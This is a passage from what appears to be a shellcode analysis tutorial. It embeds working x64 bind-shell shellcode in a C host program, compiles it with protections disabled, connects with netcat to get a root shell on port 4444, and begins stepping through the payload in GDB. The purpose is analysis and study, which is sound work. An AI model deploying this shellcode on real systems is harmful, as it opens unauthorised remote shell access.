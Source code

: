 ## Shellcode.c Host Program
Here we add our shellcode to our C host program. We will compile our host program, and then use GDB for analysis of the non-staged bindshell payload.

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
int main()
{
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

### Compile & Test Shellcode.c
After executing the host bindshell program, connect to it on TCP port 4444 with a netcat connection.
#### Terminal 1
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode

```

#### Terminal 2
```bash
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

## GDB Analysis
### Setup
Here we will start our shellcode with the Gnu Debugger and set a breakpoint on the main function. After the breakpoint is set, we will run the program. 
```bash
root# gdb ./shellcode
GNU gdb (Debian 8.3.1-1) 8.3.1
gdb-peda$ b main
Breakpoint 1 at 0x1129
gdb-peda$ r
```

### Finding shellcode[]
We will use the GDB step-into (`s`) command to move through our program until we reach the point where execution is passed to the shellcode[] array (our non-staged bind shell, shellcode from msfvenom).
```bash
=> 0x555555555141 <main+28>:    call   rdx
gdb-peda$ s
```
+ Step into rdx (shellcode[]).
